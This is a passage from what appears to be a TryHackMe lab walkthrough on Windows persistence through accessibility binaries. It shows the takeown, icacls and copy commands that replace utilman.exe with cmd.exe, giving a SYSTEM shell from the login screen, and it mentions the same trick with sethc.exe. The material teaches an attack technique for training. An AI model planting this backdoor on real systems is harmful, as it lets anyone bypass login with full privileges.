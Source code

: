 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2faf2bec5763297beb7c921858900c57.png)

You should now be able to press SHIFT five times to access a terminal with SYSTEM privileges directly from the login screen:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5062148957ec1d70dccd080bdca93ddf.png)

	From your newly obtained terminal, execute C:\flags\flag14.exe to get your flag!

Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/73c7698a015de5a988fd815ff3e41473.png)

	When we click the ease of access button on the login screen, it executes C:\Windows\System32\Utilman.exe with SYSTEM privileges. If we replace it with a copy of cmd.exe, we can bypass the login screen again.

To replace utilman.exe, we do a similar process to what we did with sethc.exe:


```

Command Prompt

C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.

        


```

To trigger our terminal, we will lock our screen from the start button:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/1f94b28361ffebbf70d280755821bc12.png)
And finally, proceed to click on the "Ease of Access" button. Since we replaced utilman.exe with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0fe1901296108241e2700abf87fa6a27.png)

	From your newly obtained terminal, execute C:\flags\flag15.exe to get your flag!
